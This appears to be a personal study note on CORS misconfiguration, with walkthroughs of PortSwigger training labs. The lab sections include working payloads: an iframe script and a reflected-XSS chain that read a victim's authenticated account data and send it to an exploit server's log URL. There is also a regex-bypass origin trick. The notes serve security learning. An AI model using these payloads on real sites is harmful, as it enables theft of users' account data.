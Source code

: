 # CORS stands for Cross Origin Resource Sharing
- By default the web protocol is allowed to make request from 1 domain to another domain.
They can't read responses.

## Dynamic WebApps
- Dynamic WebApps need get response from different subdomain or payment gateway , analytics page, APi etc.
In order to read response from different domain the thirdparty domain should have
```bash
Access-Control-Allow-Origin: Webap.com
```
This header in place

- It can also fetch account related informations such as score, balance,privilege but to get access from authenticated page
It should have this header
```bash
Access-Control-Allow-Credentials: True
```

# Rules Of CORS protocol
- There are 3 methods supported by CORS
```bash
Access-Control-Allow-Origin: onlyonedomain.com
Access-Control-Allow-Origin: *
Access-Control-Allow-Origin: null
```
- Note if it is set to */wildcard The
```bash
Access-Control-Allow-Credentials: True
```
- It will not work for security reasobs

# Where is the vulnerbility
- Since only single domain is allowd to be in Access-Control-Allow-Origin Header. The modern web app uses dynamic generation of hostnames to put in headers in each request.
- So it uses regex for allowing multiple domains to access resources.

# Bugs to check
- add origin as null
- use suffix or prifix of allowd domain to check
- try other ways to bypass regex

# LAB
### CORS Minconfiguration With No Protection
```bash
/accountDetail gives a json that contains account info
tried Origin: example.com and it worked

Now the javascript for exploit server
```
### CORS vulnerability with trusted null origin
```bash
Added null in input got the header as null

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

### Site trusts all subdomains
```bash
In that case find a reflected XSS
We will request for resource using XSS then force the subdomain to send data to us

in our server 

<script>
    document.location="https://stock.0a3b00eb035dfb9280751cc1000100e2.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a3b00eb035dfb9280751cc1000100e2.web-security-academy.net',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a93007e039dfb4c80861bcc01070025.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>


Now what will happend is we will trigegr xss in subdomain and force it to send data back to us
```

### CORS Regex Bypass
```bash
Allowed : https://example.com
Try: https://evil.example.com
```


### Resources
- [Report 1](https://hackerone.com/reports/426165)
- [Report 2](https://hackerone.com/reports/470298)
- [Writeup](http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html)
